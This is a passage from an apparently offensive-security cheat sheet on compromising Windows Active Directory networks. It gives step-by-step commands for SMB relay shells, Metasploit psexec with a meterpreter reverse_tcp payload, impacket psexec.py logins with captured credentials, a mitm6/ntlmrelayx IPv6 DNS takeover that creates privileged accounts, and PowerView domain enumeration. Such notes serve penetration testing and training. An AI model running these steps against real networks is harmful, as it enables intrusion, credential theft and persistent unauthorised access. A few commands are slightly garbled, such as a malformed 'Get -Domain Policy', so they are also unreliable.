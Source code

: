           3. Let the victim connect
          4. This will spawn a SMB shell on `127.0.0.0` on a port print by the script, connect to it using `netcat`
        - How to: get normal shell (metasploit)
          1. `use exploit/windows/smb/psexec`
          2. `show options`
          3. Set `rhosts, smbdomain, smbpass, smbuser, lhost`
          4. `set payload windows/meterpreter/reverse_tcp`
        - How to: get normal shell (`psexec.py`)
          - Tool: https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py
          - `psexec.py <domain-server>/<username>:<password>@<host>` 
      - IPv6 DNS Takeover via Mitm6: impersonate DNS server to make the user "authenticate" to you and then use its credentials to create a persistent user account on its machine
        - Explanation: https://www.fox-it.com/nl/actueel/blog/mitm6-compromising-ipv4-networks-via-ipv6/
        - Tool: https://github.com/fox-it/mitm6
        - How to
          1. MITM IPv6: `mitm6 -d <domain-controller>`
          2. `ntlmrelayx.py -6 -t ldaps://<target> -wh <fakewpadaddress> -l <loot-folder>`
          3. Wait for DNS requests
          4. `ntlmrelayx.py` should output privileged users created
    - Post-compromise
      - Enumeration
        - Tool: https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1 or in general https://github.com/PowerShellMafia/PowerSploit
        - How to
          1. Run `powerview`
          2. Getting Domain Details: `Get-NetDomain`
          3. Get Domain Controller Information: `Get-NetDomainController`
          4. Get Domain Policy Details: `Get-DomainPolicy`
          5. Get Domain Password Policy : `(Get -Domain Policy)."system access"`
          6. Get details of Users: `Get-NetUser`
          7. Get specific user related details: `Get-UserProperty`
             - Example: `Get-UserProperty -properties pwdlastset`
          8. Get list of computers: `Get-Netcomputer`
          9. Get list of computers in detail: `Get-Netcomputer -full-data`
          10. Get Domain Group Information: `Get-NetGroup`
              - Example: `Get-NetGroup -GroupName *admin*`  
          11. Find the list of users in a group: `Get-NetGroupmember -GroupName "Domain Admins"`
          12. Get list of Shared Folders: `Invoke-ShareFinder`
          13. Get Group Policy: `Get-NetGPO`
              - Example: `Get-NetGPO | select displayname, whenchanged`
        - Powerview cheatsheet
